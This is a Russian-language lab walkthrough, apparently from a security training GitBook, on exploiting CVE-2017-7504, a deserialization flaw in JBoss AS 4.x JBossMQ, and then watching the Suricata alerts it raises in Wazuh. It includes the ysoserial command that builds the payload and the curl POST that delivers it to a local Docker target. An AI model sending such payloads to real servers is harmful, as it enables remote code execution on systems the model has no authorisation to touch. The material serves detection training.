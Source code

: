 # CVE-2017-7504

### Материалы:

* [https://nvd.nist.gov/vuln/detail/CVE-2017-7504](https://nvd.nist.gov/vuln/detail/CVE-2017-7504)
* [https://www.opencve.io/cve/CVE-2017-7504](https://www.opencve.io/cve/CVE-2017-7504)

CVE-2017-7504 является уязвимостью десериализации, уязвимыми являются JBoss AS 4.x и предыдущие версии. Принцип уязвимости. В JBoss AS 4.x и более ранних версиях файл HTTPServerILServlet.java уровня вызова JServer через HTTP в процессе реализации JBossMQ имеет уязвимость десериализации.

Злоумышленник может использовать эту уязвимость для выполнения произвольного кода со специальными сериализованными данными.

### Эксплуатация уязвимости

Для запуска уязвимой среды выполните команду:

```
docker compose up -d
```

Чтобы сгенерировать полезную нагрузку, нужно скачать [ysoserial](https://github.com/frohoff/ysoserial/releases/download/v0.0.6/ysoserial-all.jar) и выполнить данную команду

```
java -jar ysoserial-all.jar CommonsCollections5 "touch /tmp/success" > 1.ser
```

Если при генерации пэйлоада возникает подобная ошибка, нужно откатить версию Java

> Для генерации подойдет 11 версия&#x20;
>
> Чтобы откатить java к 11 версии, нужно найти пакет с помощью команды sudo apt search jdk и скачать его, а затем выполнить команду sudo update-alternatives --config java и sudo update-alternatives --config javac и выбрать 11 версию
>
>

<figure><img src="../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

После этого отправляем содержимое файла как тело POST-запроса

```
curl http://ваш-ip:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @1.ser
```

Результатом эксплуатации является создание файла /tmp/success

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>
